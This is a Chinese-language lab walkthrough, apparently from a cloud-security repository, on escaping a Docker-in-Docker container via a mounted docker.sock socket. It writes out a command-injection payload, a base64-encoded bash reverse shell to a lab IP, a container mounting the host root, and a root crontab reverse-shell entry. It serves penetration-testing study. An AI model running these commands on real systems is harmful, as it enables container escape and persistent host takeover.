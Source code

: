 DIND (docker-in-docker) exploitation

DIND （docker-in-docker） 漏洞利用
![image](https://github.com/RuoJi6/cloud-security/assets/79234113/0e86b56d-0d4b-4047-a03d-a582c04f513f)


地址：http://192.168.86.139:1231/

知识点：

custom/docker/docker.sock 通常是 Docker 守护进程的 Unix 套接字文件。Docker 守护进程使用套接字来与客户端通信，接受来自客户端的 Docker 命令并管理容器的生命周期等。

在正常的 Docker 安装中，通常使用默认的套接字文件路径 /var/run/docker.sock。但在你的情况下，你使用了一个自定义路径 custom/docker/docker.sock。这可能是为了满足一些特殊需求或者是出于安全性或其他目的。

1、有了这个，我们在dcoerk容器中，可以通过这个和宿主机的docker进行通信，下发一个带有特权的docker到宿主机\[也就是真实机器\]，然后逃逸

![](./assets/image-20231120165606896.png)

发现是执行的Ping，这个时候我们可以使用linux管道符

![](./assets/image-20231120165554724.png)

 

mount命令查看当前挂载的文件系统信息

127.0.0.1 \| mount

![image-20231120165550304](./assets/image-20231120165550304.png)

发现存在docker.sock

127.0.0.1 \| ls -lah /custom/docker/docker.sock

挂载Docker Socket逃逸

开始逃逸

1、需要在目前机器需要挂载了docker.sock

2、目标机器需要安装docker

 

127.0.0.1 \| wget <https://download.docker.com/linux/static/stable/x86_64/docker-18.09.9.tgz> -O /tmp/docker-18.09.9.tg

127.0.0.1 \| ls /tmp

![image-20231120165633844](./assets/image-20231120165633844.png)

 

 

 

 

解压文件到指定目录

127.0.0.1 \| tar -xvzf /tmp/docker-18.09.9.tg -C /tmp/

这个不知道为什么会解密失败[后面发现是下载这个包出现的问题]

这个时候我们反弹shell

在线生成反弹shell:

<https://taoyuan.cool/shell/>

 

但是又遇到一个问题

```shell
bash -i \>& /dev/tcp/192.168.86.218/3332 0\>&1
```

命令带有空格，某些字符会被转义，这个时候我们可以使用先base64编码在执行

```shell
echo 'bash -i \>& /dev/tcp/192.168.86.218/3332 0\>&1' \| base64
```

![image-20231120165640482](./assets/image-20231120165640482.png)

执行下面命令

127.0.0.1 \| echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljg2LjIxOC8zMzMyIDA+JjEK" \| base64 -d \| bash

![image-20231120165644125](./assets/image-20231120165644125.png)

python3 -m http.server 80

起一个http环境，我们把安装包上传上去

<https://download.docker.com/linux/static/stable/x86_64/docker-18.09.9.tgz>

这个实在的话，需要根据你实在机器选择版本，不然会报错

![image-20231120165708255](./assets/image-20231120165708255.png)

下载：wget <http://192.168.86.218/docker-18.09.9.tg>

 

解压

```shell
tar -zxf docker-18.09.9.tg

cd /docker

chmod +x docker

./docker -H unix:///custom/docker/docker.sock images
```

![image-20231120165717661](./assets/image-20231120165717661.png)

成功主机docker容器\[逃逸成功\]

下发一个挂载真实机器目录的docker

```shell
./docker -H unix:///custom/docker/docker.sock run -d -v /:/host ubuntu tail -f /dev/null  
```


![image-20231120165724338](./assets/image-20231120165724338.png)

查看正在运行的容器：

```shell
./docker -H unix:///custom/docker/docker.sock ps
```

【因为我这里测试，所以有两个】

![image-20231120165727992](./assets/image-20231120165727992.png)

执行命令

```shell
./docker -H unix:///custom/docker/docker.sock exec IMAGE_ID 命令

./docker -H unix:///custom/docker/docker.sock exec b0261bfba7c4 ls
```

![image-20231120165731270](./assets/image-20231120165731270.png)

这个host目录就宿主机目录，这个时候我们可以执行反弹shell拿到真实机器权限

```shell
./docker -H unix:///custom/docker/docker.sock exec b0261bfba7c4 ls /host
```

![image-20231120165735260](./assets/image-20231120165735260.png)

查看宿主机计划任务

```shell
./docker -H unix:///custom/docker/docker.sock exec b0261bfba7c4 cat /host/etc/crontab
```

![image-20231120165744344](./assets/image-20231120165744344.png)

 写入计划任务

```shell
./docker -H unix:///custom/docker/docker.sock exec b0261bfba7c4 sh -c 'echo "\* \* \* \* \* root bash -i \>& /dev/tcp/192.168.86.218/4444 0\>&1" \>\> /host/etc/crontab'
```

![image-20231120165752630](./assets/image-20231120165752630.png)

写入成功

![image-20231120165816602](./assets/image-20231120165816602.png)

拿下node1

![image-20231120165820064](./assets/image-20231120165820064.png)

 
